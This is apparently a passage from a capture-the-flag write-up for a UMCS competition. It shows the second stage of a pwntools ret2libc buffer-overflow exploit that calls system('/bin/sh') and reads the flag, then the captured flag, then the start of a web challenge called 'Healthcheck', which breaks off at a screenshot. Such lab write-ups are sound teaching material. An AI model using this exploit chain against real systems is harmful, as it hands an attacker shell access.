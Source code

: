 ```bash
# Stage 2: system("/bin/sh")
payload2 = flat(
    b'A' * 72,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    ret,
    libc.symbols['system']
)
p.sendlineafter("Enter your input:", payload2)
p.sendline(b'cat flag_copy')

try:
    print(p.recvuntil(b"}", timeout=3).decode())
except EOFError:
    print("❌ Early EOF")

p.close()
```

run the exploit script. Then, got the flag!

Flag: **umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}**

## Web

### Healthcheck (lkhwn.nzm)
### Description
> I left my hopes_and_dreams on the server. can you help fetch it for me?
> 
> http://104.214.185.119/index.php

UMCS provide us `index.php` on their github

---

### Solution

I was given this web page.

![Healthcheck Interface](img/healthcheck.png)
